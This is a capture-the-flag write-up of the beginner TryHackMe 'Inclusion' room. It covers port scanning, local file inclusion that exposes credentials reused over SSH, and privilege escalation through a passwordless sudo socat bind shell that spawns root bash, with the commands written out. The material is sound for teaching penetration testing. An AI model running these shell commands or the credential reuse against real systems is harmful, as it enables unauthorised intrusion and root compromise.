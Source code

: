 # Inclusion, by N3PH1L4X
This was a pretty fun room, it consists on basic local file inclusion and a little bit of post-exploitation enumeration. As its description states: it's for beginners, so this is a good room to learn and practice LFI. Let's start.
> Room link: https://tryhackme.com/room/inclusion

## Scanning
First of all we run a common nmap port scan:
~~~
nmap 10.10.115.231 -p- -n --min-rate=1000 --open -vvv
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-08 20:46 -04
Initiating Ping Scan at 20:46
Scanning 10.10.115.231 [2 ports]
Completed Ping Scan at 20:46, 0.36s elapsed (1 total hosts)
Initiating Connect Scan at 20:46
Scanning 10.10.115.231 [65535 ports]
Discovered open port 80/tcp on 10.10.115.231
Discovered open port 22/tcp on 10.10.115.231
Connect Scan Timing: About 27.62% done; ETC: 20:48 (0:01:21 remaining)
Connect Scan Timing: About 55.55% done; ETC: 20:48 (0:00:49 remaining)
Completed Connect Scan at 20:48, 119.38s elapsed (65535 total ports)
Nmap scan report for 10.10.115.231
Host is up, received syn-ack (0.68s latency).
Scanned at 2021-08-08 20:46:47 -04 for 120s
Not shown: 40635 filtered ports, 24898 closed ports
Reason: 40635 no-responses and 24898 conn-refused
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 119.79 seconds
~~~

Here we can see there are two open ports, let's scan those ports:
~~~
nmap 10.10.115.231 -p22,80 -n -sV -sC -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-08 21:03 -04
Nmap scan report for 10.10.115.231
Host is up (0.36s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.31 seconds
~~~

There are two running services on those ports, let's check the web page on port 80:
![image](https://user-images.githubusercontent.com/71483185/128653032-7caa3e8e-b8fd-4209-aa62-34be834b88ba.png)

It's a blog with a few entries explaining some attack vectors, let's have a look on the LFI entry:
![image](https://user-images.githubusercontent.com/71483185/128653078-4adf894d-a7e9-48ea-a405-858b9e4c2ab8.png)

## Exploitation
Well that looks strange... The url might be useful. Let's try checking if we can view files outside the web directory:
![image](https://user-images.githubusercontent.com/71483185/128656392-1773d004-92f0-4619-8ec7-aaa52f299bfc.png)
We certainly can, there is an user listed there. We can know that by searching user IDs (UID) from 1000 and over.

Also there is what seems to be an user/password combination. What if we try that on the SSH port?
![image](https://user-images.githubusercontent.com/71483185/128653830-a0f74821-522e-4092-80f2-be5c3e2b846b.png)<br>
There it is. We have broke in.

And here is our user flag file.<br>
![image](https://user-images.githubusercontent.com/71483185/128654253-15acb8cb-7f88-4482-b1b9-02131c1dfb6d.png)

## Privilege escalation
Now all we have to do is escalate privileges. Are we sudoers?
![image](https://user-images.githubusercontent.com/71483185/128654678-d2752cb2-f411-49c4-83f0-8d229ba2b90c.png)<br>
Yes! And we can use socat as superuser without providing a password.

Let's have a look on what socat is:<br>
![image](https://user-images.githubusercontent.com/71483185/128654840-7e5b549c-1a07-4602-afa7-469ada3918b3.png)<br>
> Source: https://www.redhat.com/sysadmin/getting-started-socat

It seems like we can establish a TCP connection using this tool. Let's try this on our victim's machine:
~~~
sudo socat TCP4-LISTEN:4444,reuseaddr EXEC:"/bin/bash"
~~~
This command is going to run socat as superuser, is going to setup a TCP listener on port 4444 and start /bin/bash (the victim's shell) when it catches a connection.<br>
![image](https://user-images.githubusercontent.com/71483185/128655592-a0f1d434-3a25-43af-a112-f04ea7b7e13f.png)<br>
Listener is awaiting for connection.<br>

Now we are going to run this command on our attacker's machine:<br>
~~~
socat – TCP4:10.10.115.231:4444
~~~
It's gonna try establish a TCP connection to the IP provided, in my case it's 10.10.115.231 on port 4444.
![image](https://user-images.githubusercontent.com/71483185/128655879-ab879bbd-32c9-4bc1-bb03-bdcd052bb4fa.png)<br>
And there it is!

All we need to do now is find our root flag file!<br>
![image](https://user-images.githubusercontent.com/71483185/128655960-c06830f1-a05e-4e24-aa75-3bcdb6a7999b.png)

## Finishing off
That's it! As I said before, this is a pretty easy but fun room, very useful for learning and practicing LFI.
Thank you for reading this write up!

